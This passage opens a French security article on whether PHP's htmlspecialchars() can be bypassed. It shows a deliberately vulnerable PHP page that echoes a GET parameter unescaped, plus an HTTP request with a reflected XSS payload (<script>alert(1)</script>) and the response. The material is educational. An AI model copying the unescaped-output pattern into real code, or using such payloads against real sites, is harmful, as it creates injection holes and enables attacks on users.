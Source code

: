 ```yaml
---
description: 29 Juillet 2022
---
```


# Est-il possible de contourner la fonction PHP htmlspecialchars() ?

> La fonction `htmlspecialchars()` est fréquemment utilisée pour nettoyer les entrées utilisateur dans les applications PHP natives (comprendre sans utilisation de framework). Est-elle suffisante pour couvrir tous les cas d'utilisation ? C'est ce que nous allons tenter de découvrir dans cet article.

## La fonction htmlspecialchars()

Avant d'analyser la méthode `htmlspecialchars()`, voici le code d'une injection simple au sein d'une page HTML : &#x20;

```php
<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Une injection simple</title>
  </head>
  <body>
     <p><?php echo 'Une injection simple : ' . $_GET['param']; ?></p>
  </body>
</html>
```

La requête HTTP exploitant la vulnérabilité est la suivante :&#x20;

```http
GET /minipoc/htmlspecialchars/?param=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

Et voici la réponse HTTP associée :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Une injection simple</title>
  </head>
  <body>
     <p>Une injection simple : <script>alert(1)</script></p>
  </body>
</html>
```
